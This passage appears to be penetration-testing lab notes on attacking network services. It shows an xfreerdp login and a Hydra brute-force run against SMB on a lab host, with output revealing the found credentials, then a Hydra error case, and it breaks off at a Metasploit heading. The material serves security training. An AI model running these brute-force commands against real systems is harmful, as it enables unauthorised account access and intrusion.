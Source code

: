 ```sh
xfreerdp /v:10.129.42.197 /u:user /p:password

...SNIP...
New Certificate details:
        Common Name: WINSRV
        Subject:     CN = WINSRV
        Issuer:      CN = WINSRV
        Thumbprint:  cd:91:d0:3e:7f:b7:bb:40:0e:91:45:b0:ab:04:ef:1e:c8:d5:41:42:49:e0:0c:cd:c7:dd:7d:08:1f:7c:fe:eb

Do you trust the above certificate? (Y/T/N) Y
```

## Hydra - SMB

```sh
hydra -L user.list -P password.list smb://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-06 19:37:31
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 25 login tries (l:5236/p:4987234), ~25 tries per task
[DATA] attacking smb://10.129.42.197:445/
[445][smb] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid passwords found
```

#### Hydra - Error

```sh
hydra -L user.list -P password.list smb://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-06 19:38:13
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 25 login tries (l:5236/p:4987234), ~25 tries per task
[DATA] attacking smb://10.129.42.197:445/
[ERROR] invalid reply from target smb://10.129.42.197:445/
```

* This is because we most likely have an outdated version of THC-Hydra that cannot handle SMBv3 replies

#### Metasploit Framework
